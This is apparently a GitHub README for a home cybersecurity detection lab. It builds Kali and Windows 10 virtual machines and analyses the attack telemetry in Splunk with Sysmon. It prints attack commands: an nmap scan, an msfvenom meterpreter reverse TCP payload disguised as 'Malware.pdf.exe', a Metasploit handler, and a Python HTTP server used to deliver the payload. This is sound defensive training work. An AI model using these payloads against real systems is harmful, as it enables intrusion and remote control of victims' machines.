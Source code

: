 Detection Lab

## Objective

This Detection Lab project aimed to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a Security Information and Event Management (SIEM) system, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen my understanding of network security, attack patterns, and defensive strategies.

### Lessons Learned

- Proper configuration of virtual machines.
- Understanding of SIEM concepts and practical application.
- Proficiency in analyzing and interpreting SIEM logs.
- Ability to generate telemetry.
- Development of critical thinking and problem-solving skills in cybersecurity.

### Tools Used

- Virtual Box as the hypervisor.
- Splunk (SIEM) with sysmon add-on for log ingestion and analysis.
- Windows 10 (victim) as the target
- Kali Linux (attacker) to generate telemetry for ingestion and analysis

## Steps
1. Using Virtual Box as my hypervisor I created two VMs. Kali Linux to generate the telemetry needed, and Windows 10 to act as the target. On the Windows 10 VM, I installed Splunk along with Sysmon to be used to log and monitor the telemetry. I also disabled Windows Defender and enabled RDP as that will be the targetted port.

2. Configure VMs:
![internal network](https://github.com/user-attachments/assets/f7cc3d1b-939b-4918-ae2d-d0cea180a57c)
_Figure 1: Changed the network setting to Internal Network to ensure a secure environment and isolated communication between multiple VMs especially when executing malware. I do this for both VMs._

![statically configure IP](https://github.com/user-attachments/assets/ab444a7d-4c4c-4692-8ccf-0861d7594f3b)
![Kali manually IP](https://github.com/user-attachments/assets/6964769b-13e3-42f7-a044-4170eaa27a14)
_Figures 2 & 3: I manually configured both VMs' IPs to be on the same network (Windows= 192.168.100.1 | Kali Linux= 192.168.100.2)_

![Cofirming IP change](https://github.com/user-attachments/assets/5e574eae-2efc-4491-a257-e53fb15e187a)
_Figure 4: Check that both VMs' IPs have been successfully changed using ipconfig/ifconfig._

![Windows pinging Kali](https://github.com/user-attachments/assets/1e13cdfd-0f0a-48a1-8708-922e0497f0c2)
_Figure 5: Using Windows 10, I ping the Kali Linux VM to ensure that there is a connection. I did not ping from Kali Linux to Windows as Windows 10's Firewall was blocking ICMP traffic._

3. In Kali Linux I scan for open ports on Windows 10 using the command "nmap -A 192.168.100.1 -Pn"
![nmap showing open port 3389](https://github.com/user-attachments/assets/d919803b-2ec5-4b12-b093-42437b433223)
<br clear="left"/> _Figure 6: Port 3389 is open. This should be open as I had enabled RDP on the Windows 10 machine_

4. Create a basic malware using msfvenom
![msfvenom malware creation](https://github.com/user-attachments/assets/16fce8d8-059c-4609-9960-db3e9afe8518)
<br clear="left"/> _Figure 7: First I used the command "msfvenom -l payload" to see the list of payload options. I will use "windows/x64/meterpreter_reverse_tcp" as the payload. Now using the command "msfvenom -p (chosen payload option) lhost=192.168.100.2 lport=4444 -f exe -o Malware.pdf.exe" will generate our executable malware using the meterpreter reverse TCP payload with the filename of Malware.pdf.exe._

5. Open Metasploit using "msfconsole" to listen in when executing malware and "use exploit/multi/handler" to configure the payload itself.
   ![metasploit payload config](https://github.com/user-attachments/assets/9dd8674c-2419-4a1e-9f49-1a2e7572b2f5)
   <br clear="left"/>_Figure 8: I changed the payload option to "windows/x64/meterpreter/reverse_tcp" and Lhost to Kali Linux's IP_

6. Use the command "Exploit" to begin listening

7. Before going back to Windows 10, open a quick HTTP server on Kali Linux for the victim to download using the command "python3 -m http.server 9999"

8. On Windows 10, open a browser and type in "192.168.100.2:9999" into the URL
  ![download malicious file](https://github.com/user-attachments/assets/ad02f142-3fce-4bcd-8887-5e861178e1a7)
  <br clear="left"/> _Figure 9: Suspicious looking webpage hosting a downloadable file with an executable extension_

9. Open the Terminal as admin and use "netstat -anob" to check for established connection
   ![malware connection established](https://github.com/user-attachments/assets/71984906-1234-4deb-8265-a21708432dc0)
   ![Screenshot 2025-02-18 151544](https://github.com/user-attachments/assets/608acc5b-ccf5-4f46-8a53-3477e813e4fb)
   <br clear="left"/> _Figures 10 & 11: This shows connection has been established on both Windows 10 and Kali Linux machine_

10. Back in Metasploit use the "shell" command to establish a shell on our test machine. To create some telemetry use the command "net user, net localgroup, and ipconfig"

11. Back on Windows 10, login to Splunk and query for Kali Linux's IP using "index=endpoint 192.168.100.2"
    ![RDP port in splunk](https://github.com/user-attachments/assets/f97fb2b5-99b3-4362-89d5-eb5367d2f2bc)
    <br clear="left"/> _Figure 12: I see port 3389, used for RDP. Some questions to ask as an analyst are "Should this machine be attempting to our RDP port?" or "Who does this machine belong to?" Looking at this telemetry, we would not know that this was an Nmap scan which shows the importance of network sensors that may show potential signatures or TCP flags._

12. Next I queried "index=endpoint malware.pdf.exe EventCode=1" and opened the first log (EventCode= 1 is for process creation in sysmon)
   ![Screenshot 2025-02-18 161442](https://github.com/user-attachments/assets/8454fae8-9423-41ca-8240-8f0ac52af670)
  <br clear="left"/> _Figure 13: "process_guid" is a sysmon log that tracks all events of a process. In this case, this should track the process of the reverse shell command from Kali._

13. Finally I query "index=endpoint (process_guid) | table _time,ParentImage,Image,Commandline" to give a visual representation
    ![process GUID net user](https://github.com/user-attachments/assets/f1e5e50c-2f32-4757-b322-366d92e71314)
    <br clear="left"/> _Figure 14: I see the reverse shell and "net user" but not "net localgroup" or "ipconfig". This may be due to issues with data forwarding/parsing or commands not executing properly due to the VM._


